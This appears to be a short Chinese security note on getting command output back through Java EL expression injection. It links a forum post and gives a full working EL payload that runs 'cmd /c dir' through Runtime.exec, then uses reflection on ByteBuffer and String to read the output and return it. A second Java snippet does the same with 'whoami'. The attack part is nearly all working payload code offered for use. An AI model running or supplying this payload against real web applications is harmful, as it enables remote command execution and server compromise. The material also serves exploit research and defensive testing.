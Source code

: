 [普通EL表达式命令回显的简单研究](https://forum.butian.net/share/886)

![image-20220306133321908](img/image-20220306133321908.png)

只能加载这四个包内的class,但是我们可以通过反射加载其他类

```
${
pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("cmd /c dir").getInputStream());
Thread.sleep(1000);
pageContext.setAttribute("inputStreamAvailable", pageContext.getAttribute("inputStream").available());
pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"));
pageContext.setAttribute("allocateMethod", pageContext.getAttribute("byteBufferClass").getMethod("allocate", Integer.TYPE));
pageContext.setAttribute("heapByteBuffer", pageContext.getAttribute("allocateMethod").invoke(null, pageContext.getAttribute("inputStreamAvailable")));
pageContext.getAttribute("inputStream").read(pageContext.getAttribute("heapByteBuffer").array(), 0, pageContext.getAttribute("inputStreamAvailable"));
pageContext.setAttribute("byteArrType", pageContext.getAttribute("heapByteBuffer").array().getClass());
pageContext.setAttribute("stringClass", Class.forName("java.lang.String"));
pageContext.setAttribute("stringConstructor", pageContext.getAttribute("stringClass").getConstructor(pageContext.getAttribute("byteArrType")));
pageContext.setAttribute("stringRes", pageContext.getAttribute("stringConstructor").newInstance(pageContext.getAttribute("heapByteBuffer").array()));
pageContext.getAttribute("stringRes")
}
```

> InputStream whoami = Runtime.getRuntime().exec("whoami").getInputStream();
> Thread.sleep(100);
> int whoami1 = whoami.available();
> byte[] array = ByteBuffer.allocate(100).array();
> whoami.read(array, 0, whoami1);
> System.out.println(new String(array));

